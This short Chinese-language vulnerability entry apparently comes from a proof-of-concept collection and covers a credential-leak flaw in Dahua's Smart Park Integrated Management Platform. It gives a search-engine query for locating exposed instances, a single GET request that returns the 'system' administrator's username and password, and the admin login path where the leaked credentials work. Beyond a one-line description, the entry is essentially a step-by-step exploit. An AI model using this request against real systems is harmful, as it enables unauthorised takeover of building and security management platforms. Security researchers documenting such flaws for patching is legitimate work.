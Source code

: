 # 大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 账号密码泄漏漏洞

## 漏洞描述

大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 中存在API接口，导致管理园账号密码泄漏

## 漏洞影响

智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

![image-20230828144644472](images/image-20230828144644472.png)

请求POC

```
/admin/user_getUserInfoByUserName.action?userName=system
```

![image-20230828144658624](images/image-20230828144658624.png)

获取后访问地址

```
/admin/login_login.action
```

![image-20230828144732646](images/image-20230828144732646.png)